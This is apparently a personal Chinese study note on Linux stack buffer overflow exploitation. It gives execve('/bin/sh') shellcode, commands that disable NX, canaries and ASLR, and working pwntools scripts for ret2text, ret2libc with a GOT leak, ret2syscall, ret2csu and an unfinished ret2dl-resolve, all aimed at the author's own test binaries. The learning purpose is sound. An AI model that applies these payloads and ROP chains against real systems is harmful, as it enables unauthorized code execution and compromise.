  8. 函数执行完毕后准备返回，需要将func使用的栈恢复，即恢复到5之前（leave）
     1. mov esp，ebp 栈顶恢复到栈底
     2. pop ebp 原栈底出站
  9. 原eip出栈，恢复到4之前（ret）
* x86-64的略微不同
  * 前六个参数通过寄存器传递
  * 没有类似sub rsp,0x10的操作，rsp的值等于rbp。这是一项编译优化，rsp以下128字节的空间被称为red zone，是一块保留内存，可以用于函数保存临时数据。


#### 危险函数

* scanf、gets等读取输入函数
* strcpy、strcat、sprintf等字符串拷贝函数

#### 如何更改IP寄存器（TODO）

溢出攻击的核心是通过溢出劫持控制流，从更本质上来说，是通过溢出更改IP寄存器的值，将其指向恶意代码。但是现代CPU并不支持直接修改IP寄存器，仅有少数指令可以更改IP寄存器的值，例如`call ret jmp`等

#### shellcode注入

* 什么情况下可以注入shellcode TODO
* shellcode的编写 TODO
  * 基本思想 网站 工具 提取 TODO
  * 形变shellcode TODO

> 栈溢出的主要目的是覆写函数的返回地址，从而劫持控制流，在没有NX保护机制的情况下，我们可以直接将shellcode注入栈上并执行，大致方法是先覆盖正常的返回地址，将地址指向我们注入的shellcode上。此外bss、data、heap等段均可进行shellcode注入。但需要了解的是，如今的程序大多数在编译时采用了NX等保护机制，将栈或其他区域标记为不可执行，shellcode注入在这种情况下无法使用。
>
> 大多数shellcode都是专用的，与特定的处理器、操作系统、目标程序以及要实现的功能紧密相关，这里不讨论注入，仅仅介绍一段实现在 data段执行shell的shellcode。网站shell-storm有许多shellcode的学习案例。

##### 32位shellcode执行不成功

```c
// 示例代码
# include<stdio.h>
# include<string.h>

// shellcode的内容是下面汇编的二进制代码，32位 x86
char shellcode[]="\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";
int main(){
    printf("Shellcode length: %d bytes\n", strlen(shellcode));
    
    
    // int (*funcPtr)(int) = foo; (*funcPtr)(5);
    // typedef int (*funcptr)(int);funcptr p=foo;p(5)
    (*(void(*)())shellcode)();
    return 0;
}
```

```nasm
global _start
section .text

_start:
; int execve(const char *filename, char *const argv[], char *const envp[])
xor ecx, ecx    ; ecx = NULL
mul ecx         ; eax and edx = NULL
mov al, 11      ; execve syscall
push ecx        ; string NULL
push 0x68732f2f ; "//sh"
push 0x6e69622f ; "/bin"
mov ebx, esp    ; pointer to "/bin/sh\0" string
int 0x80        ; bingo
```

```shell
# 将汇编文件.asm编译为.o文件
nasm -f elf32 shellcode.asm

# 将.o文件链接为可执行文件
ld -m elf_i386 shellcode.o -o shellcode.out
```

> 这里参考的书上的例子，但是实际上我自己实验时出现报错，Segmentation fault，这是因为我们写入shell的部分为data段，在我实验时，data段没有给执行权限。下面的图片可以看.data的地址范围为0804b298~0804b2b6，这一段没有执行权限。


##### 分析64位shellcode为什么不能执行成功

```C
// x86-64
#include <stdio.h>
#include <string.h>

// 64位 execve("/bin/sh", NULL, NULL) 的 shellcode
unsigned char shellcode[] =
    "\x48\x31\xd2"                                  // xor    rdx, rdx
    "\x48\x31\xf6"                                  // xor    rsi, rsi
    "\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"      // movabs rdi, 0x0068732f6e69622f
    "\x48\xc1\xef\x08"                              // shr    rdi, 8
    "\x57"                                          // push   rdi
    "\x48\x89\xe7"                                  // mov    rdi, rsp
    "\x48\x31\xc0"                                  // xor    rax, rax
    "\xb0\x3b"                                      // mov    al, 59
    "\x0f\x05";                                     // syscall

int main() {
    printf("Shellcode length: %ld bytes\n", strlen((char *)shellcode));

    // 定义函数指针并调用 shellcode
    void (*run)() = (void(*)())shellcode;
    run();

    return 0;
}

```

```shell
# 关闭NX和Canary
gcc test64.c -o test64 -z execstack -fno-stack-protector
```

编译后，发现仍然无法正常执行，检查是否存在权限问题

```shell
# 搜索shellcode
search-pattern 0xf63148d23148
```


```shell
# 查看shellcode是否有可执行权限
vmmap
```


确定没有相应内存地址没有执行权限，仅有读写权限

```shell
# 从elf头中也可以读取出部分信息
elf
```


看出.data在进程中的偏移地址（addr）为0x4000，而off为elf中的偏移地址。.data在内存中的地址范围为`0x0000555555554000`+`0x4000`为`0x00007ffff7de8000`到`0x00007ffff7de8040`确实符合我们搜索的结果

##### 调整后的64位shellcode

* 原来shellcode在.data段，现在更改代码后，其在.text具有执行权限，先不管其为什么在.text段

```c
#include <stdio.h>
#include <string.h>

int main() {
    // shellcode 放在栈上（局部变量）
    // 这里更原来相比，删掉了shr    rdi, 8
    unsigned char shellcode[] =
        "\x48\x31\xd2"                                  // xor    rdx, rdx
        "\x48\x31\xf6"                                  // xor    rsi, rsi
        "\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"      // movabs rdi, 0x0068732f6e69622f
        "\x57"                                          // push   rdi
        "\x48\x89\xe7"                                  // mov    rdi, rsp
        "\x48\x31\xc0"                                  // xor    rax, rax
        "\xb0\x3b"                                      // mov    al, 59
        "\x0f\x05";                                     // syscall

    printf("Shellcode length: %ld bytes\n", strlen((char *)shellcode));

    // 执行 shellcode
    ((void(*)())shellcode)();

    return 0;
}
```

#### ret2

> 有时我们可以注入shellcode的位置并不能执行，例如目标程序开启了NX保护或者注入的段没有执行权限，这时可以采用ret2libc来调用libc.so中的system("/bin/sh")。ret2libc概括来说，就是将栈上正常的返回地址覆盖为libc.so中的system函数，然后再构造参数/bin/sh。

```C
// example
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 
char sh[]="/bbbbbbbbbbbbbbin/sh"; 

int init_func(){
	setvbuf(stdin,0,2,0); 
	setvbuf(stdout,0,2,0); 
	setvbuf(stderr,0,2,0); 
	return 0;
}

int func(char *cmd){ 
	system(cmd); 
	return 0; 
}

int main(){ 
	init_func(); 
	char a[32] ={}; 
	puts("input: ");
	gets(a);
	printf(a); 
	return 0; 
}

```

##### ret到注入的shellcode

```shell
# 关闭PIE NX STACK CANARY
gcc -no-pie -fno-pie -fno-stack-protector -z execstack program.c -o program

# 查看ASLR是否开启，现代操作系统默认开启了 ASLR，这会导致每次程序运行时，栈、堆、库函数（如 libc）、程序本身的数据段/代码段 的地址都可能会变化，难以确定注入栈上注入的shellcode的地址
cat  /proc/sys/kernel/randomize_va_space

# 临时关闭ASLR，重启后恢复
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

```python
from pwn import *

context.binary = '/home/lideao/C/retShellcode'
context.terminal = ['gnome-terminal', '--']  # 或 tmux 等

io = gdb.debug('/home/lideao/C/retShellcode', '''
    b main
    b *main+54                         
    c
''')

shellcdoe = b'\x48\x31\xd2\x48\x31\xf6\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x48\x89\xe7\x48\x31\xc0\xb0\x3b\x0f\x05'
nop = b'a'*5
rbp = b'\x00'*8
retIp = b'\x20\xd9\xff\xff\xff\x7f\x00\x00'

# 等待程序跑到输入处
print("exe echo:\n"+io.recvuntil(b'input: ').decode())

payload = shellcdoe + nop + rbp + retIp
print("start send payload......")
io.sendline(payload)
print("send success!")

io.interactive()

```

###### 地址问题

* 调试过中发现，在关闭PIE和ASLR后，虽然栈的地址不再变化，但是在直接运行、调试或者使用不同脚本调试的情况下，其栈的偏移略有不同，这是因为在不同运行环境下，参数传递、程序启动方式有所差别，造成栈的偏移地址有一些差别（是否只会影响到栈呢？）

```c
#include <stdio.h>

int main() {
    char buf[100];
    printf("Address of buf: %p\n", buf);
    gets(buf);
    return 0;
}
```

```shell
.\testP
gdb testP
```

```python
from pwn import *

context.binary = '/home/lideao/C/01_PWM/testP'
context.terminal = ['gnome-terminal', '--']  # 或 tmux 等

io = process()
# 附加GDB，从入口开始调试
gdb.attach(io, '''
''')

payload = b'A'
print("start send payload......")
io.sendline(payload)
print("send success!")

io.interactive()
```

```python
from pwn import *

context.binary = '/home/lideao/C/01_PWM/testP'
context.terminal = ['gnome-terminal', '--']  # 或 tmux 等

io = gdb.debug('./testP', '''

''')


payload = b'A'
print("start send payload......")
io.sendline(payload)
print("send success!")

io.interactive()
```

##### ret2text

```c
#include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h> 
char sh[]="/bin/sh"; 
int func(char *cmd)
{ 
    system(sh); 
    return 0; 
}

int dofunc(){ 
    char b[8] = {}; 
    puts ("input: ");
    read(0,b,0x100); 
    //printf(b);
    return 0;
}
int main(){ 
    dofunc();
    return 0;
}
```

```shell
# 不开启PIE时，ASLR对.text段地址无影响
gcc -no-pie -fno-pie -fno-stack-protector -z execstack program.c -o program
```

```python
from pwn import *

context(log_level='debug',arch='i386', os='linux') 
pwnfile='./elf'

io=process(pwnfile)
#io=remote('',) 
elf=ELF(pwnfile) 
rop=ROP(pwnfile) 


padding=0x14
#padding=padding2ebp+context.word size//8 
#通过调试得到

gdb.attach(io) 
pause()

return addr =0x08049182

payload = b'a'*padding + p32(return_addr) 
#payload=flat(['a' *padding, return_addr]) 
delimiter ='input:'

io. sendlineafter(delimiter, payload) 
io.interactive()
```


##### ret2text x86手动传递参数

* 注意ret跳转队医call跳转，少执行了`push eip`，注意参数的偏移

```c
// example
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 
char sh[]="/bbbbbbbbbbbbbbin/sh"; 

int init_func(){
	setvbuf(stdin,0,2,0); 
	setvbuf(stdout,0,2,0); 
	setvbuf(stderr,0,2,0); 
	return 0;
}

int func(char *cmd){ 
	system(cmd); 
	return 0; 
}

int main(){ 
	init_func(); 
	char a[32] ={}; 
	puts("input: ");
	gets(a);
	printf(a); 
	return 0; 
}

```

```shell
# 关闭PIE NX STACK CANARY
gcc -m32 -no-pie -fno-pie -fno-stack-protector -z execstack program.c -o program

# 查看ASLR是否开启，现代操作系统默认开启了 ASLR，这会导致每次程序运行时，栈、堆、库函数（如 libc）、程序本身的数据段/代码段 的地址都可能会变化，难以确定注入栈上注入的shellcode的地址
cat  /proc/sys/kernel/randomize_va_space

# 临时关闭ASLR，重启后恢复
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

###### 在栈上注入"/bin/bash"失败

* 这里使用gdb.debug调试32位程序时存在bug，无法正常调试目标程序
* 后面想到，可以在栈的高地址注入`/bin/bash`，这样不会被覆盖清除

```python
from pwn import *

context(log_level='debug',arch='i386', os='linux')
context.binary = '/home/lideao/C/retShellcode32'
context.terminal = ['gnome-terminal', '--']  # 或 tmux 等

io = process()
gdb.attach(io, '''
    b main
    b *main+136
    c
''')

cmd = b'/bin/touch /home/lideao/777'
nop = b'\x00'*(32-len(cmd)+4)

oldrbp = b'\x00'*4
retIp = b'\x63\x92\x04\x08'
nopCallip = b'\x00'*4
paramPoint = b'\xb0\xc9\xff\xff'

oldrsp = bytes([paramPoint[0]+0x30])+paramPoint[1:]

print("wait...")
# 等待程序跑到输入处
print("exe echo:\n"+io.recvuntil(b'input: ').decode())

pause()

payload = cmd + nop + oldrsp + oldrbp + retIp + nopCallip + paramPoint
# payload = b'aaaaa'
print("start send payload......")
io.sendline(payload)
print("send success!")

io.interactive()

```

* 这里在`gets`时，注入了字符串`/bin/bash`，后面试图将`system`的参数指向该字符串，但是后续无论如何都无法getshell。经过调试发现，在`func`中的`system`传参之前，该字符串还正常存在，但是在执行到libc的`system`时（注意这俩system的不同），该字符串的内容却被修改了，一个很顺应直觉的推测，该字符串（栈上）在两个`system`之间被覆盖了，因此，在栈上注入一个字符串或者变量，有时候需要考虑到被覆盖的风险

###### 修改后的payload

* 这里没有使用注入的字符串作为system的参数，而是使用在内存中搜索到的字符串

```python
from pwn import *

context(log_level='debug',arch='i386', os='linux')
context.binary = '/home/lideao/C/retShellcode32'
context.terminal = ['gnome-terminal', '--']  # 或 tmux 等

io = process()
gdb.attach(io, '''
    b main
    b *main+136
    c
''')

esp = b'\xb0\xc9\xff\xff'

cmd = b'' # 这里注入易被覆盖
nop = b'\x00'*(32-len(cmd)+4)
oldrsp = bytes([esp[0]+0x30])+esp[1:]
oldrbp = b'\x00'*4
# ret2text
retIp = b'\x63\x92\x04\x08'
nopCallip = b'\x00'*4
# 内存中搜索到的/bin/bash的地址
paramPoint = b'\x26\xcc\xff\xff'


print("wait...")
# 等待程序跑到输入处
print("exe echo:\n"+io.recvuntil(b'input: ').decode())

pause()

payload = cmd + nop + oldrsp + oldrbp + retIp + nopCallip + paramPoint
# payload = b'aaaaa'
print("start send payload......")
io.sendline(payload)
print("send success!")

io.interactive()

```

##### ret2text x64 传递参数

```shell
# 关闭PIE NX STACK CANARY
gcc  -no-pie -fno-pie -fno-stack-protector -z execstack program.c -o program

# 查看ASLR是否开启，现代操作系统默认开启了 ASLR，这会导致每次程序运行时，栈、堆、库函数（如 libc）、程序本身的数据段/代码段 的地址都可能会变化，难以确定注入栈上注入的shellcode的地址
cat  /proc/sys/kernel/randomize_va_space

# 临时关闭ASLR，重启后恢复
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

* x64和x86的主要区别在于参数的传递，x64的前六个参数通过RDI, RSI, RDX, RCX, R8, R9传递（不同编译器略有不同），对于ret2text x86传递参数中的例子，没办法覆盖栈的数据来传递`"/bin/bash"`
* 如何解决——通过ROP，找到`pop rdi;ret`

搜索需要的指令



搜索字符串参数



```txt
offset=0x20
oldebp
retip
paramPoint
retip
```

```shell
# 用shell脚本打的一个坏处是有时候shell脚本以子进程方式创建，不会弹出shell
{ printf 'a%.0s' {1..32};printf 'aaaaaaaa';printf '\x13\x13\x40\x00\x00\x00\x00\x00';printf '\xbd\xa5\xf7\xf7\xff\x7f\x00\x00';printf '\x36\x12\x40\x00\x00\x00\x00\x00'; }|./ret2text64
```

```python
from pwn import *

context(log_level='debug',arch='i386', os='linux')
context.binary = '/home/lideao/C/ret2text64'
context.terminal = ['gnome-terminal', '--']  # 或 tmux 等

io = process()
gdb.attach(io, '''
    b main
    b *main+103
    c
''')

offset = b'a'*0x20
oldrsp = b'a'*8
# ret2text
retRopIp = b'\x13\x13\x40\x00\x00\x00\x00\x00'
# 内存中搜索到的/bin/sh的地址x
paramPoint = b'\xbd\xa5\xf7\xf7\xff\x7f\x00\x00'
retip = b'\x36\x12\x40\x00\x00\x00\x00\x00'


print("wait...")
# 等待程序跑到输入处
print("exe echo:\n"+io.recvuntil(b'input: ').decode())

pause()

payload = offset+oldrsp+retRopIp+paramPoint+retip
# payload = b'aaaaa'
print("start send payload......")
io.sendline(payload)
print("send success!")

io.interactive()

```

###### 参数传递技巧

* 栈传递参数

  * 字符串拆分，取`sabsabash`中的`bash`

  * 类型不重要，字节比较重要
    * 例如传入指针，需要参数字符`a`，让指针指向的字节为0x61即可 
    
      


* 寄存器传递参数
  * rdi rsi可以通过寻找ROP
  * rdx 可以通过未清除的寄存器值，或者

##### ret2libc x64

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 

int do_func(){
	char b[8] = {};
    write(1, "input:",6);
    read(0,b,0x100);
    return 0;
}


int main(){ 
	do_func();
    return 0;
}

```

```shell
# 关闭程序本身的PIE NX STACK CANARY
# 加载的动态链接库仍受PIE影响
gcc -no-pie -fno-pie -fno-stack-protector  program.c -o program
```

###### 泄露libc基地址

* 在开启ASLR的情况下，即使编译程序时关闭了PIE，libc的地址仍是不确定的
* 程序是如何找到wirte等libc函数调用的地址的？通过打印got表项，寻找其地址。

###### payload

* 先通过ret2text到`read`函数，打印出got表，计算`system`和`/bin/sh`的地址，再返回到`do_func`函数，按照栈溢出的常规操作ret2到`system`

```python
from pwn import *

context(log_level='debug',arch='amd64', os='linux')
elfpath = '/home/lideao/C/ret2libc'
context.binary = elfpath
context.terminal = ['gnome-terminal', '--']
io=process()
elf = ELF(elfpath)
rop = ROP(context.binary)

padding = 0x08
rbp_padding =0x08
leak_func_got = elf.got['write']
# .symbols 实际并不是 ELF 文件中的一个段（section），而是在 pwntools 的 ELF 类中提供的一个接口，
# 用于访问 符号表（symbol table）中定义的符号及其地址。
# 这些符号可以是函数、变量、全局对象等。
return_addr = elf.symbols['do_func'] 
# write_sym = elf.symbols['write']
write_sym = elf.plt['write']
pop_rdi_ret = rop.rdi.address
pop_rsi_r15_ret = rop.rsi.address

# 这里的rbp地址设置为任意地址并没有影响到后续对栈的访问，推演一下整个过程就明白了
# padding填充空间，rbp_padding填充rbp地址，pop_rdi_ret填充ROP链中的pop rdi地址，p64(1)是赋给rdi的值，后面的内容同理
payload1 = b'a'*(padding+rbp_padding) + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(leak_func_got) + p64(0xdeadbeef)

payload1 += p64(write_sym) + p64(return_addr)  # 这里相当于call了一次write_sym，return_addr为设置的返回地址

delimiter1 = 'input:'
io.sendlineafter(delimiter1, payload1)

write_addr = u64(io.recv(6).ljust(8,b'\x00'))
print("write_addr:",hex(write_addr))


# 静态分析获取libc中的偏移地址
write_offset = 0x10E060
libc_addr = write_addr - write_offset
print('libc_addr:',hex(libc_addr))

system_offset = 0x052290
system_addr = libc_addr + system_offset

bin_sh_offset = 0x1B45BD
bin_sh_addr = libc_addr + bin_sh_offset

payload2 = b'a'*(padding+rbp_padding) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)

delimiter2 = 'input:'
io.sendlineafter(delimiter2, payload2)

io.interactive()


```

##### ret2libc x86

##### ret2syscall x64

* 简介：`ret2syscall` 是一种**栈溢出攻击利用技术**，其核心思想是构造一条**系统调用（`syscall`）指令**的执行路径，通过手动控制系统调用号和参数来执行内核提供的服务（如 `execve`, `read`, `write` 等）。
* 特点
  * 这种方法**不依赖 libc 函数**，适用于没有 libc（静态链接、libc 被移除）、没有可用的 plt / got、不能 ret2libc，但有 syscall 指令的 gadget

| 架构   | 系统调用指令 | 支持 ret2syscall | 说明                         |
| ------ | ------------ | ---------------- | ---------------------------- |
| x86    | `int 0x80`   | ✅                | 可用                         |
| x86_64 | `syscall`    | ✅                | 最常见                       |
| ARM    | `svc #0`     | ✅                | 也可构造                     |
| MIPS   | `syscall`    | ✅                | 通过 `$v0`, `$a0`–`$a3` 设置 |
| RISC-V | `ecall`      | ✅                | 支持但利用较少见             |

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 

char a[] = "/bin/bash";

int do_func(){
	char b[8] = {};
    write(1, "input:",6);
    read(0,b,0x100);
    return 0;
}


int main(){ 
	do_func();
    return 0;
}

```

```shell
# 关闭程序本身的PIE NX STACK CANARY
# 加载的动态链接库仍受PIE影响
# 静态编译没有libc
# 注意到checksec时会检测到Stack Canary，这是静态库的Stack Canary
gcc -static -no-pie -fno-pie -fno-stack-protector  program.c -o program
```

* payload
  * 动态调试发现，ret前，rsi指向输入内容，可以在输入时输入`b'\x00' * 8` （注意这里的参数类型）
  * rdi，rdx，rax需要找ROP

```python
from pwn import *

context(log_level='debug',arch='amd64', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/01_PWM/ret2syscall'
context.binary = elfpath
io=process()
# gdb.attach(io, '''
#     b main
#     b *do_func+68
#     c
# ''')
elf = ELF(elfpath)
rop = ROP(context.binary)

padding=0x08
rbp_padding=0x08
bin_bash_addr=next(elf.search(b'/bin/bash'))
pop_rdi_ret=rop.rdi.address
pop_rdx_ret=rop.rdx.address
pop_rax_ret=rop.rax.address
syscall_addr=rop.syscall.address

payload=b'\x00'*padding+b'a'*rbp_padding+p64(pop_rdi_ret)+p64(bin_bash_addr)+p64(pop_rdx_ret)+p64(0)+p64(pop_rax_ret)+p64(0x3b)+p64(syscall_addr)

delimiter = 'input:'
pause()
io.sendlineafter(delimiter, payload)

io.interactive()

```

##### ret2csu

* x86-64架构下，在找不到合适pop寄存器的gadget时使用（特别是pop rdx）
* 主要利用了函数`__libc_csu_init` ，这是ELF文件的初始化函数，不依赖于某个库，仅通过这个函数的指令，可以控制`rdi rsi rdx r12 rbx rbp`等寄存器的值
* 通过学习`__libc_csu_init` ，也给了我们一个新思路，在找ROP时，不一定要通过pop直接控制某个寄存器的值，可以先pop到寄存器a，再通过mov等指令控制需要寄存器

```assembly
.text:00000000004011C0                               ; __unwind {
.text:00000000004011C0 F3 0F 1E FA                   endbr64
.text:00000000004011C4 41 57                         push    r15
.text:00000000004011C6 4C 8D 3D 43 2C 00 00          lea     r15, __frame_dummy_init_array_entry
.text:00000000004011CD 41 56                         push    r14
.text:00000000004011CF 49 89 D6                      mov     r14, rdx
.text:00000000004011D2 41 55                         push    r13
.text:00000000004011D4 49 89 F5                      mov     r13, rsi
.text:00000000004011D7 41 54                         push    r12
.text:00000000004011D9 41 89 FC                      mov     r12d, edi
.text:00000000004011DC 55                            push    rbp
.text:00000000004011DD 48 8D 2D 34 2C 00 00          lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004011E4 53                            push    rbx
.text:00000000004011E5 4C 29 FD                      sub     rbp, r15
.text:00000000004011E8 48 83 EC 08                   sub     rsp, 8
.text:00000000004011EC E8 0F FE FF FF                call    _init_proc
.text:00000000004011EC
.text:00000000004011F1 48 C1 FD 03                   sar     rbp, 3
.text:00000000004011F5 74 1F                         jz      short loc_401216
.text:00000000004011F5
.text:00000000004011F7 31 DB                         xor     ebx, ebx
.text:00000000004011F9 0F 1F 80 00 00 00 00          nop     dword ptr [rax+00000000h]
.text:00000000004011F9
.text:0000000000401200
.text:0000000000401200                               loc_401200:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401200 4C 89 F2                      mov     rdx, r14
.text:0000000000401203 4C 89 EE                      mov     rsi, r13
.text:0000000000401206 44 89 E7                      mov     edi, r12d
.text:0000000000401209 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]  ;  [r15+rbx*8]前面的内容是反汇编器展示的内容，可以忽略
.text:0000000000401209
.text:000000000040120D 48 83 C3 01                   add     rbx, 1
.text:0000000000401211 48 39 DD                      cmp     rbp, rbx
.text:0000000000401214 75 EA                         jnz     short loc_401200
.text:0000000000401214
.text:0000000000401216
.text:0000000000401216                               loc_401216:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401216 48 83 C4 08                   add     rsp, 8
.text:000000000040121A 5B                            pop     rbx
.text:000000000040121B 5D                            pop     rbp
.text:000000000040121C 41 5C                         pop     r12
.text:000000000040121E 41 5D                         pop     r13
.text:0000000000401220 41 5E                         pop     r14
.text:0000000000401222 41 5F                         pop     r15
.text:0000000000401224 C3                            retn
```

这里主要利用到`loc_401200`到`retn`这一段代码，主要的利用思路是先`ret`到`loc_401216`后的`pop rbx`，这里连续可以控制六个寄存器的值，再`ret`到`loc_401200`，这样就可以控制函数传参的前三个寄存器（rdi控制低32位），之后有两个利用策略：1.如果可以控制`[r15+rbx*8]`指向想要的函数，可以直接call；2.通过之前设置`r15`和`rbx`使得`call`不影响所需寄存器和栈帧的值（例如指向`_term_proc`），`rbp` 和 `rbx` ，使得`cmp rbp, rbx`结果为0，后面不跳转，再走一遍`loc_401216` ret2到想要的地址。

##### ret2plt

* 个人感觉很局限，可以被其他技术代替
* 核心操作还是ret2libc中的通过got表泄露libc基地址

##### ret2dl-resolve x86

* 使用场景
  * 程序未调用过 `system()`，没有其 PLT 条目
  * 没有 `/bin/sh` 字符串可用
  * 没有 libc 泄露手段（如没有 `puts@plt`）
  * 动态链接的 ELF 可执行文件（非静态编译）
  * 没有开启 Full RELRO
* 需要用到栈迁移
  * 空间不够
  * 栈地址不确定

* 原理：`plt[0]` 跳转到`_dl_runtime_resolve`，`_dl_runtime_resolve(link_map,reloc_offset)`控制参数`reloc_offset`即可解析解析出任意动态链接库的函数

```assembly
0x80491da <do_func+36>     call   0x8049090 <write@plt>

; 跳转到.plt.sec
0x8049090 <write@plt+0>    endbr32 
; ds:0x804c014为[0x804c014]，0x804c014是存储write的plt表项地址
; write在静态分析中，是一个占位符，指向的地址无实际含义，但在动态分析中
0x8049094 <write@plt+4>    jmp    DWORD PTR ds:0x804c014

; 跳转到write，write在动态分析中为0x8049060，处于.plt
0x8049060                  endbr32 
; 这里push的是.rel.plt中write的偏移（记为reloc_arg；这里的偏移是绝对地址偏移），内容是是一个结构体，其中包含地址0x804C014，用于告诉动态链接器在0x804C014写入write的真实地址，还包含一个r_info告诉动态链接器解析动态链接库中的哪个函数
0x8049064                  push   0x10
; 这里是jmp到plt[0]，所有的动态函数在解析前都是跳转到plt[0]
0x8049069                  jmp    0x8049030

; 跳转到plt[0]
; 这里push的是got[1]，内容是link_map，只有动态分析时才看得到内容，只要不动态加载链接库，解析不同函数时相同
0x8049030                  push   DWORD PTR ds:0x804c004
; jmp的是got[2]，内容是_dl_runtime_resolve的地址，动态分析时才能看到
0x8049036                  jmp    DWORD PTR ds:0x804c008
0x804903c                  nop    DWORD PTR [eax+0x0]

; 跳转后相当于执行_dl_runtime_resolve(link_map,reloc_offset)
; _dl_runtime_resolve的核心是函数_dl_fixup
; ......
0xf7fe7adf <_dl_runtime_resolve+15> call   0xf7fe1790 <_dl_fixup>
; ......
```

* 这里`_dl_fixup`作为了解，ret2dl_resolve关键在于控制`_dl_runtime_resolve`或者说`_dl_fixup`的参数传递

```c
_dl_fixup(struct link_map *l,ElfW(Word) reloc_arg)
{
	// 首先通过参数reloc_arg计算重定位的入口，这里的JMPREL即.rel.plt，reloc_offest即reloc_arg
	const PLTREL *const reloc = (const void *)(D_PTR(l, l_info[DT_JMPREL]) + reloc_offset);
	// 然后通过reloc->r_info找到.dynsym中对应的条目
	const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
	// 这里还会检查reloc->r_info的最低位是不是R_386_JMUP_SLOT=7
	assert(ELF(R_TYPE)(reloc->info) == ELF_MACHINE_JMP_SLOT);
	// 接着通过strtab+sym->st_name找到符号表字符串，result为libc基地址
	result = _dl_lookup_symbol_x (strtab + sym ->st_name, l, &sym, l->l_scope, version, ELF_RTYPE_CLASS_PLT, flags, NULL);
	// value为libc基址加上要解析函数的偏移地址，也即实际地址
	value = DL_FIXUP_MAKE_VALUE (result, sym ? (LOOKUP_VALUE_ADDRESS(result) + sym->st_value) : 0);
	// 最后把value写入相应的GOT表条目中
	return elf_machine_fixup_plt (l, result, reloc, rel_addr, value);	
}
```

* reloc_arg是一个结构体，第一个元素是got表的地址，告诉解析出的动态函数地址放在哪（第一次调用动态函数并不以来这个地址），第二个元素则是告诉`_dl_runtime_resolve`解析哪个动态函数

```c
typedef uint32_t Elf32_Word;

typedef struct {
    Elf32_Addr r_offset;  // 要修复的地址（如 GOT 表项），4字节
    Elf32_Word r_info;    // 符号索引 + 重定位类型（r_sym 和 r_type），4字节
} Elf32_Rel;

// r_info会被分解为两个变量使用
#define ELF32_R_SYM(info)  ((info) >> 8)      // 高 24 位：符号表索引 .dynsym中的第几个符号，是数组偏移
#define ELF32_R_TYPE(info) ((info) & 0xff)    // 低 8 位：重定位类型，延迟绑定都是R_386_JUMP_SLOT类型，值为7
```

* 继续看这里write的reloc_arg

```assembly
; .rel.plt段中关于write的结构体（reloc_arg)
LOAD:0804833C                 dd 804C014h             ; r_offset ; R_386_JMP_SLOT write
LOAD:08048340                 dd 407h                 ; r_info，高24位为4，即.dynsym中偏移为4的结构体

```

```c
// Elf32_Sym
typedef struct {
    Elf32_Word    st_name;   // 符号名在字符串表中的偏移，依赖它找到动态函数的真实地址，绝对地址偏移，4字节
    Elf32_Addr    st_value;  // 符号值（如函数地址），4字节
    Elf32_Word    st_size;   // 符号大小
    unsigned char st_info;   // 类型和绑定信息，值0表示局部、未指定类型的符号，很多系统链接器对 st_info=0 的容忍度很高，也就是说并不依赖这里进行类型的识别，1字节
    unsigned char st_other;  // 目前固定为 0（保留），1字节
    Elf32_Half    st_shndx;  // 所在节索引（SHN_UNDEF 等），1字节
} Elf32_Sym;

// st_info的用法
st_info=0x12
#define ELF32_ST_BIND(st_info) ((st_info)>>4)  // ST_BIND = 1 → STB_GLOBAL（全局符号）
#define ELF32_ST_TYPE(st_info) ((st_info)&0x0f)  // ST_TYPE = 2 → STT_FUNC（函数）
// 综合表示这是一个全局符号
    
```

```assembly
; .dynsym中关于write的结构体,Elf32_Sym
LOAD:08048288                 dd offset aWrite - offset unk_80482A8; st_name, 这里aWrite是"write"的地址，unk_80482A8是 .strtab 或 .dynstr的起始地址
LOAD:0804828C                 dd 0                    ; st_value
LOAD:08048290                 dd 0                    ; st_size
LOAD:08048294                 db 12h                  ; st_info
LOAD:08048295                 db 0                    ; st_other
LOAD:08048296                 dw 0                    ; st_shndx
```

* 分析到这里以及足够了，当我们能够ret2到_dl_runtime_resolve，且同时能控制参数link_map和reloc_offset时，即可解析任意的函数
  * 由于link_map时相同的，所以我们选择ret2到plt[0]，让合法代码push link_map
  * 我们需要构造一个偏移量，这个偏移量指向的是我们伪造的`Elf32_Sym`，且r_info所指向的地址是我们伪造的`Elf32_Sym`,其中st_name要指向我们伪造的函数名

```c
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char a[0x200];

void vuln()
{
	char buf[100];
	setbuf(stdin, buf);
	read(0, buf, 256);
}
int main()
{
	char buf[100] = "Welcome to XDCTF2015~!\n";

	setbuf(stdout, buf);
	write(1, buf, strlen(buf));
	vuln();
	return 0;
}


```

```shell
gcc -fno-stack-protector -z relro -no-pie ret2dl_resolve.c -o ret2dl_resolve64
```

```as
```

```python
from pwn import *

context(log_level='debug',arch='i386', os='linux')
context.terminal = ['gnome-terminal', '--']
elfpath = '/home/lideao/C/ret2dl_test32'
context.binary = elfpath
elf = ELF(elfpath)
rop = ROP(context.binary)
io=process()
# gdb.attach(io, '''
#     b main
#     b *read+59
#     c
# ''')


bss_start = elf.bss()              # .bss 段起始地址
bss_size = elf.get_section_by_name('.bss').header.sh_size  # .bss 段大小
bss_end = bss_start + bss_size     # .bss 段结束地址

